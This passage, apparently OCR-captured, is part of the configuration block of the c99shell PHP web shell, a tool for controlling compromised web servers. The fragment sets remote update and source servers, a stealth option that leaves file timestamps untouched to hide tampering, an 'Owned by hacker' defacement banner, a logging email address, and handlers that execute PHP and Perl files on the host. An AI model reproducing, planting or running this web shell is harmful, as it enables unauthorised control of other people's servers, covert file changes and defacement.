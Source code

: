     c99shell v.".$shver."&lt;/a&gt;: access denied"; 
$gzipencode = TRUE; //Encode with gzip? 
$updatenow = FALSE; //If TRUE, update now (this variable will be FALSE) 
$c99sh_updateurl = "http://ccteam.ru/update/c99shell/"; //Update server 
$c99sh_sourcesurl = "http://ccteam.ru/files/c99sh_sources/"; //Sources-server 
$filestealth = TRUE; //if TRUE, don't change modify- and access-time 
$donated_html = "&lt;center&gt;&lt;b&gt;Owned by hacker&lt;/b&gt;&lt;/center&gt;"; 
/* If you publish free shell and you wish 
add link to your site or any other information, 
put here your html. */ 
$donated_act = array(""); // array ("act1","act2,"...), 
                          // if $act is in this array, display $donated_html. 
$curdir = "./"; //start folder 
//$curdir = getenv("DOCUMENT_ROOT"); 
$tmpdir = ""; //Folder for tempory files. If empty, auto-fill (/tmp or %WINDIR/temp) 
$tmpdir_log = "./"; //Directory logs of long processes (e.g. brute, scan...) 
$log_email = "0xd4yx@gmail.com"; //
$sort_default = "0a"; //Default sorting, 0 - number of colomn, "a"scending or "d"escending 
$sort_save = TRUE; //If TRUE then save sorting-position using cookies. 
// Registered file-types. 
//  array( 
//   "{action1}"=&gt;array("ext1","ext2","ext3",...), 
//   "{action2}"=&gt;array("ext4","ext5","ext6",...), 
//   ... 
//  ) 
$ftypes  = array( 
"html"=&gt;array("html","htm","shtml"), 
"txt"=&gt;array("txt","conf","bat","sh","js","bak","doc","log","sfc","cfg","htaccess"), 
"exe"=&gt;array("sh","install","bat","cmd"), 
"ini"=&gt;array("ini","inf"), 
"code"=&gt;array("php","phtml","php3","php4","inc","tcl","h","c","cpp","py","cgi","pl"), 
"img"=&gt;array("gif","png","jpeg","jfif","jpg","jpe","bmp","ico","tif","tiff","avi","mpg","mpeg"), 
"sdb"=&gt;array("sdb"), 
"phpsess"=&gt;array("sess"), 
"download"=&gt;array("exe","com","pif","src","lnk","zip","rar","gz","tar") 
); 
// Registered executable file-types. 
//  array( 
//   string "command{i}"=&gt;array("ext1","ext2","ext3",...), 
//   ... 
//  ) 
//   {command}: %f% = filename 
$exeftypes  = array( 
getenv("PHPRC")." -q %f%" =&gt; array("php","php3","php4"), 
"perl %f%" =&gt; array("pl","cgi") 
); 
/* Highlighted files. 
  array( 
   i=&gt;array({regexp},{type},{opentag},{closetag},{break}) 
   ... 
  ) 
  string {regexp} - regular exp. 
  int {type}: 
0 - files and folders (as default), 
1 - files only, 2 - folders only 
  string {opentag} - open html-tag, e.g. "&lt;b&gt;" (default) 
  string {closetag} - close html-tag, e.g. "&lt;/b&gt;" (default) 
  bool {break} - if TRUE and found match then break 
*/ 
$regxp_highlight  = array( 
  array(basename($_SERVER["PHP_SELF"]),1,"&lt;font color=\"yellow\"&gt;","&lt;/font&gt;"), // example 
  array("config.php",1) // example 
); 
$safemode_diskettes = array("a"); // This variable for disabling diskett-errors. 